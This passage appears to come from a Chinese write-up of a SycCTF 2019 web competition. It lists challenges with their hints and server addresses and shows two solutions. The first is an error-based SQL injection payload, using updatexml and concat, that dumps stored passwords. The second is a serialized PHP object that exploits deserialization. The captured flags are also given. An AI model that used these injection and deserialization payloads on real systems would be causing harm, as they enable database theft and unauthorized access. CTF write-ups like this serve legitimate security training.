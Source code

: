 ```
# 字段
username=admin&password=admin'^updatexml(1,concat(0x7e,(select(group_concat(password))from(H4rDsq1)),0x7e),1)#
```
得到flag
```
Syc{You_c4n_erRor_1njecti0n}
```

### 17.你有特洛伊么
> 出题人：cl4y
> dGhpcyBpcyBub3QgZWFzeQ==
> 地址:http://118.25.14.40:8107/


### 18.Leixiao's blog
> 出题人：淚笑
> 你会盗号吗？？
> 地址:http://148.70.59.198:41258
> hint:储存型XSS && 认真测试各个功能点(怀疑机器人挂了的Q我)

### 19.反序列化1.0
> 出题人：Ayrain
> socre10000拿到flag
> 地址:http://148.70.59.198:42374/

php反序列化，没有需要绕过的东西
```php
<?php
class Student
{
    public $score = 0;
    public function __destruct()
    {
        echo "__destruct working";
        if($this->score==10000) {
            $flag = "******************";
            echo $flag;
        }
    }
}
echo serialize(new Student());
?>
```
运行后把分数0改为10000，得到“O:7:"Student":1:{s:5:"score";i:10000;}”，添加到exp参数得到flag
```
Syc{F4n-Xu-L4i-Hu4-Ha-Ha-Ha}
```

### 20.又来一只猫
> 出题人：cl4y
> 我家猫名字叫php
> 地址:http://118.25.14.40:8109/
> 源码下载：[点击下载](/sycctf2019/www-cat2.zip)
